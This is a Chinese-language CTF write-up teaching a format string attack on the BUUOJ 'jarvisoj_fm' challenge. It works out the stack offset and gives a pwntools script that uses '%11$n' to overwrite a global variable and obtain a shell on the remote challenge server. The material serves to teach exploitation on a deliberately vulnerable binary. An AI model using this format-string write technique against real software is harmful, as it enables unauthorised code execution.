



# pwn初学者的进阶（一）：格式化字符串


> [题目链接](https://buuoj.cn/challenges#jarvisoj_fm)

checksec 结果

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
IDA分析



很明显，存在格式化字符串漏洞。通过`x==4`的判断就能够拿到shell，那应该就是利用[格式化字符串覆盖指定地址内容](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-exploit/#_13)。

格式化字符串漏洞类型的pwn，核心就在于确定格式化字符串的偏移。因为一般来说在调用`printf(buf)`的时候，栈布局是这样的，所以我们得通过gdb调试等手段来判断**格式化字符串的起始地址的偏移**。

```
          ....
low -----------------

    -----------------
    	 old ebp
    -----------------stack of printf()
         ret addr
    ----------------       ---------
   arg1: addr of fmt_str       |
    -----------------          |
                             offset
							   |
                               |
addr-----------------      ---------
  format string content
  		........
high-----------------
          ....
```

最常用的方法是输入`aaaa`/`aaaaaaaa`＋`%p.%p.....`，通过看`0x61`在哪开始出现来判断偏移。



当然，在调试的时候也能够通过计算得出偏移，如本题的偏移就为`(0x9c-0x70)/4=11`（因为是32位，字长位4字节）。



再结合IDA查找变量`x`的地址，就可以写exp了。

```python
from pwn import *

context.os = "linux"
context.arch = "i386"

# context.log_level = "debug"

if args.LOCAL:
    p = process("./fm")
else:
    p = remote("node4.buuoj.cn", 28965)

x_addr = 0x804a02c
format_str_offset = 11

payload = p32(x_addr)+b'%11$n'
p.sendline(payload)

p.interactive()
```


